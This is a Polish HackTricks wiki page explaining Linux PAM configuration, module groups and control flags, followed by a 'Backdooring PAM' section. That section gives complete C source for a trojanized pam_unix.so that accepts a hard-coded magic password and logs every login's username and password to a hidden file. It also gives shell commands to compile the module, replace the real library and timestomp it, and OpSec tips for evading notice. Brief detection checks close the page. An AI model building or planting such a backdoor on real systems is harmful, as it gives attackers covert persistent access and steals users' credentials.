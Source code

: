 # PAM - Pluggable Authentication Modules

{{#include ../../banners/hacktricks-training.md}}

### Podstawowe informacje

**PAM (Pluggable Authentication Modules)** działa jako mechanizm zabezpieczeń, który **weryfikuje tożsamość użytkowników próbujących uzyskać dostęp do usług komputerowych**, kontrolując ich dostęp na podstawie różnych kryteriów. Jest to podobne do cyfrowego strażnika, który zapewnia, że tylko autoryzowani użytkownicy mogą korzystać z określonych usług, jednocześnie potencjalnie ograniczając ich użycie, aby zapobiec przeciążeniu systemu.

#### Pliki konfiguracyjne

- **Systemy Solaris i UNIX** zazwyczaj wykorzystują centralny plik konfiguracyjny znajdujący się w `/etc/pam.conf`.
- **Systemy Linux** preferują podejście oparte na katalogach, przechowując konfiguracje specyficzne dla usług w `/etc/pam.d`. Na przykład, plik konfiguracyjny dla usługi logowania znajduje się w `/etc/pam.d/login`.

Przykład konfiguracji PAM dla usługi logowania może wyglądać następująco:
```
auth required /lib/security/pam_securetty.so
auth required /lib/security/pam_nologin.so
auth sufficient /lib/security/pam_ldap.so
auth required /lib/security/pam_unix_auth.so try_first_pass
account sufficient /lib/security/pam_ldap.so
account required /lib/security/pam_unix_acct.so
password required /lib/security/pam_cracklib.so
password required /lib/security/pam_ldap.so
password required /lib/security/pam_pwdb.so use_first_pass
session required /lib/security/pam_unix_session.so
```
#### **Zarządzanie obszarami PAM**

Te obszary, lub grupy zarządzania, obejmują **auth**, **account**, **password** i **session**, z których każdy odpowiada za różne aspekty procesu uwierzytelniania i zarządzania sesjami:

- **Auth**: Weryfikuje tożsamość użytkownika, często prosząc o hasło.
- **Account**: Obsługuje weryfikację konta, sprawdzając warunki takie jak przynależność do grupy lub ograniczenia czasowe.
- **Password**: Zarządza aktualizacjami haseł, w tym kontrolą złożoności lub zapobieganiem atakom słownikowym.
- **Session**: Zarządza działaniami podczas rozpoczęcia lub zakończenia sesji usługi, takimi jak montowanie katalogów lub ustawianie limitów zasobów.

#### **Kontrola modułów PAM**

Kontrole określają reakcję modułu na sukces lub porażkę, wpływając na ogólny proces uwierzytelniania. Obejmują one:

- **Required**: Porażka wymaganego modułu skutkuje ostateczną porażką, ale tylko po sprawdzeniu wszystkich kolejnych modułów.
- **Requisite**: Natychmiastowe zakończenie procesu w przypadku porażki.
- **Sufficient**: Sukces omija pozostałe kontrole tego samego obszaru, chyba że kolejny moduł zawiedzie.
- **Optional**: Powoduje porażkę tylko wtedy, gdy jest jedynym modułem w stosie.

#### Przykładowy scenariusz

W konfiguracji z wieloma modułami auth, proces przebiega w ścisłej kolejności. Jeśli moduł `pam_securetty` uzna terminal logowania za nieautoryzowany, logowania root są zablokowane, jednak wszystkie moduły są nadal przetwarzane z powodu jego statusu "required". Moduł `pam_env` ustawia zmienne środowiskowe, co może wspierać doświadczenia użytkownika. Moduły `pam_ldap` i `pam_unix` współpracują, aby uwierzytelnić użytkownika, przy czym `pam_unix` próbuje użyć wcześniej podanego hasła, zwiększając efektywność i elastyczność metod uwierzytelniania.

## Backdooring PAM – Hooking `pam_unix.so`

Klasycznym trikiem na utrzymanie dostępu w środowiskach Linux o wysokiej wartości jest **zamiana legalnej biblioteki PAM na trojanizowany drop-in**. Ponieważ każde logowanie SSH / konsolowe kończy się wywołaniem `pam_unix.so:pam_sm_authenticate()`, kilka linii C wystarczy, aby przechwycić dane uwierzytelniające lub wdrożyć *magiczne* obejście hasła.

### Arkusz skrótów do kompilacji
```c
#define _GNU_SOURCE
#include <security/pam_modules.h>
#include <dlfcn.h>
#include <stdio.h>
#include <fcntl.h>
#include <unistd.h>

static int (*orig)(pam_handle_t *, int, int, const char **);
static const char *MAGIC = "Sup3rS3cret!";

int pam_sm_authenticate(pam_handle_t *pamh, int flags, int argc, const char **argv) {
const char *user, *pass;
pam_get_user(pamh, &user, NULL);
pam_get_authtok(pamh, PAM_AUTHTOK, &pass, NULL);

/* Magic pwd → immediate success */
if(pass && strcmp(pass, MAGIC) == 0) return PAM_SUCCESS;

/* Credential harvesting */
int fd = open("/usr/bin/.dbus.log", O_WRONLY|O_APPEND|O_CREAT, 0600);
dprintf(fd, "%s:%s\n", user, pass);
close(fd);

/* Fall back to original function */
if(!orig) {
orig = dlsym(RTLD_NEXT, "pam_sm_authenticate");
}
return orig(pamh, flags, argc, argv);
}
```
Kompiluj i cicho zastąp:
```bash
gcc -fPIC -shared -o pam_unix.so trojan_pam.c -ldl -lpam
mv /lib/security/pam_unix.so /lib/security/pam_unix.so.bak
mv pam_unix.so /lib/security/pam_unix.so
chmod 644 /lib/security/pam_unix.so     # keep original perms
touch -r /bin/ls /lib/security/pam_unix.so  # timestomp
```
### OpSec Tips
1. **Atomic overwrite** – zapisz do pliku tymczasowego i `mv` do miejsca docelowego, aby uniknąć częściowo zapisanych bibliotek, które mogłyby zablokować SSH.
2. Umiejscowienie plików dziennika, takich jak `/usr/bin/.dbus.log`, łączy się z legalnymi artefaktami pulpitu.
3. Utrzymuj identyczne eksporty symboli (`pam_sm_setcred` itp.), aby uniknąć nieprawidłowego działania PAM.

### Detection
* Porównaj MD5/SHA256 `pam_unix.so` z pakietem dystrybucji.
* Sprawdź, czy istnieją pliki z uprawnieniami do zapisu dla wszystkich lub nietypowym właścicielem w `/lib/security/`.
* Reguła `auditd`: `-w /lib/security/pam_unix.so -p wa -k pam-backdoor`.

### References

- [https://hotpotato.tistory.com/434](https://hotpotato.tistory.com/434)
- [Palo Alto Unit42 – Infiltration of Global Telecom Networks](https://unit42.paloaltonetworks.com/infiltration-of-global-telecom-networks/)

{{#include ../../banners/hacktricks-training.md}}
